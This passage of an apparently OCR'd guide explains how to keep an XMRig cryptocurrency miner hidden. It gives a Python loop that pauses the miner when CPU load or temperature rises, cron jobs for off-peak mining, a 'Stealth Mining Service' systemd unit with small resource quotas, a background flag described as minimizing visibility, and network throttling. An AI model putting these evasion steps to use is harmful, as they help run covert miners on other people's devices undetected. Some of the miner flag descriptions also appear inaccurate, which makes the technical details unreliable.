      def check_resources():  
         cpu_usage = float(os.popen("top -bn1 | grep 'Cpu(s)' | awk '{print $2 + $4}'").read())  
         temp = float(os.popen("sensors | grep 'Core 0' | awk '{print $3}'").read().replace('+', ''))  
         return cpu_usage > 80 or temp > 45  

     while True:  
         if check_resources():  
             os.system("kill -STOP $(pidof xmrig)")  # Pause mining  
         else:  
             os.system("kill -CONT $(pidof xmrig)")  # Resume mining  
         time.sleep(10)  
     ```  

2. **Cron Jobs for Off-Peak Mining**  
   - Schedule mining during low-activity periods (e.g., 2:00 AM to 6:00 AM):  
     ```bash  
     0 2 * * * /usr/bin/xmrig --config /path/to/config.json  
     0 6 * * * pkill xmrig  # Stop at 6:00 AM  
     ```  

3. **Systemd Service Units**  
   - Define a service file with CPU and memory limits:  
     ```ini  
     [Unit]  
     Description=Stealth Mining Service  

     [Service]  
     ExecStart=/usr/bin/xmrig --max-threads-per-cpu 1  
     CPUQuota=10%  
     MemoryLimit=64M  

     [Install]  
     WantedBy=multi-user.target  
     ```  

### **Miner-Specific Auto-Throttling**  
- **XMRig Configuration**:  
  - **`--av=4`**: Auto-throttle mining to 40% of available CPU when system load increases.  
  - **`--max-threads-per-cpu=1`**: Restrict thread usage to avoid overloading single-core devices.  
  - **`--background`**: Run in detached mode to minimize visibility.  

- **ccminer-lite**:  
  - Adjust `--threads` and `--intensity` parameters to match device capabilities (e.g., `--threads 1 --intensity 20`).  

### **Thermal Management**  
- **Hardware Monitoring Tools**: Use `lm-sensors` or device-specific APIs to track temperature and correlate with mining activity.  
- **Fan Control**: Dynamically adjust cooling fans (if available) to prevent overheating.  

### **Summary of Tools and Parameters**  
| **Tool/Feature**       | **Purpose**                          | **Key Parameters/Commands**                                                                 |  
|------------------------|--------------------------------------|---------------------------------------------------------------------------------------------|  
| `cpulimit`             | CPU usage capping                    | `-e <process> -l <percentage>`                                                             |  
| `renice`               | Process priority adjustment          | `+19` (lowest priority)                                                                     |  
| `systemd` service      | Resource quotas                      | `CPUQuota=10%`, `MemoryLimit=64M`                                                           |  
| XMRig `--av=4`         | Auto-throttle based on system load   | Reduces hash rate by 40% under high load                                                    |  
| `tc` (traffic control) | Network bandwidth limiting           | `htb rate 50kbps`                                                                           |  
